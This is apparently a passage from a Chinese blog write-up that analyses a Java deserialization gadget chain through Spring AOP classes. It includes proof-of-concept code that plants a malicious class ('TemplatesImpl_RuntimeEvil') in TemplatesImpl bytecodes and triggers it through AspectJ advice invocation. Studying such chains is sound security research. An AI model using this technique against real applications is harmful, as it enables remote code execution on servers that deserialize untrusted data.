 不仅如此，还在实例化后调用了proceed()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250603180402065.png)

这样重载invoke的话？不出意外的，JdkDynamicAopProxy还是个继承了InvocationHandler的类，也就是动态代理类

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250529102339775.png)

不过这个类前面并没有被public修饰，作用域为package-private，需要反射获取它的public构造方法

## POC构造

### invokeAdviceMethodWithGivenArgs

我们静态看下这个链是怎么从0构造的，而不是拿来就调试。

看一下invoke的参数是怎么传递的，其中前两个参数都来自构造函数，第三个参数actualArgs来自形参

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250603171555687.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250603171644097.png)

形参来自argBinding，这是个把参数存到adviceInvocationArgs数组中的方法

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250603171743761.png)

我们调用TemplatesImpl.newTransformer()，参数为空，所以invokeAdviceMethod的参数应该全为空

我们手动调用一下AbstractAspectJAdvice.invokeAdviceMethodWithGivenArgs

```java
public class Aspectjweaver {
    public static void main(String[] args) throws Exception{
        byte[] code1 = Files.readAllBytes(Paths.get("target/classes/TemplatesImpl_RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Class<?> templates = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        // 2. 获取 newTransformer 方法
        Method newTransformerMethod = templates.getDeclaredMethod("newTransformer");
//        newTransformerMethod.invoke(templatesClass,null);
        SingletonAspectInstanceFactory singletonAspectInstanceFactory = new SingletonAspectInstanceFactory(templatesClass);
        AspectJAroundAdvice aspectJAroundAdvice = new AspectJAroundAdvice(newTransformerMethod,null,singletonAspectInstanceFactory);

        Method invokeAdviceMethodWithGivenArgs = AbstractAspectJAdvice.class.getDeclaredMethod("invokeAdviceMethodWithGivenArgs",Object[].class);
        invokeAdviceMethodWithGivenArgs.setAccessible(true);
        invokeAdviceMethodWithGivenArgs.invoke(aspectJAroundAdvice,new Object[]{null})
    }
}

```
